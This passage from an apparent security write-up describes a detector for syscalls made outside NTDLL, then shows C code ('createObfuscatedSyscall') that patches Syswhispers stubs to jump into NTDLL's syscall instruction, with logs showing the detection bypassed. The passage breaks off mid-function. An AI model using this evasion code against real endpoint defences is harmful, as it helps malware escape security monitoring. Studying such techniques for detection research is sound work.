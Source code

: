 - Resolve the bounds of NTDLL
- Place a hook on NtAcceptConnectPort. This is the first Nt function and will help us verify that even if there is a hook placed on the function then the syscall should be intact.
- Add a Stalker to every thread which will check every instruction to see if it is a syscall. If it is, then we'll check if it's within the bounds of NTDLL. If it's outside of NTDLL, then we will attach a callout to it which will look at the EAX register and tell us what the syscall number is. Then we'll inform the user of the malicious syscall.

If instead of calling our createObfuscatedSyscall function we just call the syscall normally:

```jsx
NtCreateFile = &NtCreateFile10;
NtCreateFile(...)
```

Then it should be detected.

```jsx
[?] Attempting process start..
[+] Injecting => PID: 16308, Name: C:\Users\pcuser\source\repos\suspendedunhook\x64\Debug\find_syscall_address.exe
[+] Process start success
[*] Ntdll base: 0x7ffd31970000
[*] Ntdll end: 0x7ffd31b65000
[+] Found a potentially malicious syscall
[+] Syscall number: 0x55
```

However if we do call createObfuscatedSyscall:

```jsx
[?] Attempting process start..
[+] Injecting => PID: 5320, Name: C:\Users\pcuser\source\repos\suspendedunhook\x64\Debug\find_syscall_address.exe
[+] Process start success
[*] Ntdll base: 0x7ffd31970000
[*] Ntdll end: 0x7ffd31b65000
```

Then we get a clean bill of health! It appears as though we've successfully bypassed any detection that looks for syscall instructions originating outside of NTDLL.

## Integrating with Syswhispers

I originally was just using the syscall stubs from the Dumpert project, but after I got that working I figured I should probably also make this work with Syswhispers since that's the predominant method for including syscall stubs into a VS project. In fact we only have to make one modification to the stubs generated by Syswhispers, which is to add a bunch of nops to the end of each stub to make room for the extra instructions that we need to add. They don't have to be nops necessarily, so long as we have an extra 11 bytes.

Also instead of creating a new buffer and returning that, we'll need to directly modify the Syswhispers stub. So createObfuscatedSyscall will now look like this.

```c
void createObfuscatedSyscall(LPVOID SyscallFunction, LPVOID ntdllSyscallPointer) {
	//Get the address of the syscall instruction
	LPVOID syscallAddress = (char*)ntdllSyscallPointer + 18;

	unsigned char jumpPrelude[] = { 0x49, 0xBB }; //mov r11
	unsigned char jumpAddress[] = { 0xDE, 0xAD, 0xBE, 0xEF, 0xDE, 0xAD, 0xBE, 0xEF }; //placeholder where the address goes
	*(void**)(jumpAddress) = syscallAddress; //replace the address
	unsigned char jumpEpilogue[] = { 0x41, 0xFF, 0xE3 , 0xC3 }; //jmp r11

	DWORD oldProtect = NULL;
	VirtualProtectEx(GetCurrentProcess(), SyscallFunction, 61 + 2 + 8 + 4, PAGE_READWRITE, &oldProtect);
	memcpy((char*)SyscallFunction + 61, jumpPrelude, 2);
```